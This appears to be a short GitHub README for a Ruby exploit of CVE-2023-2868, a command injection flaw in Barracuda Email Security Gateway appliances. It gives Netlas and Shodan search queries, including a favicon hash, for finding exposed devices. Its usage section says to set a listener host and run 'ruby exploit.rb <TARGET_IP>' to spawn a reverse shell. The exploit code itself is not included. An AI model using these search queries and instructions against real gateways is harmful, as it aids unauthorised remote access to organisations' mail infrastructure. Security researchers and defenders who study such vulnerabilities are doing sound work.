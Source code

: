 # CVE-2023-2868
Barracuda ESG Command Injection 
- [Netlas Search Link](https://app.netlas.io/responses/?q=http.headers.server:"BarracudaHTTP")

- Shodan dorks:
```
"Barracuda"
```
```
html:app_common::nonetwork.title
```
```
html:app_common::nonetwork.message
```
```
http.favicon.hash:1436966696
```
- Usage
Set LHOST and RHOST variables to your listener.

```
ruby exploit.rb <TARGET_IP>
```

This will spawn a reverse shell.
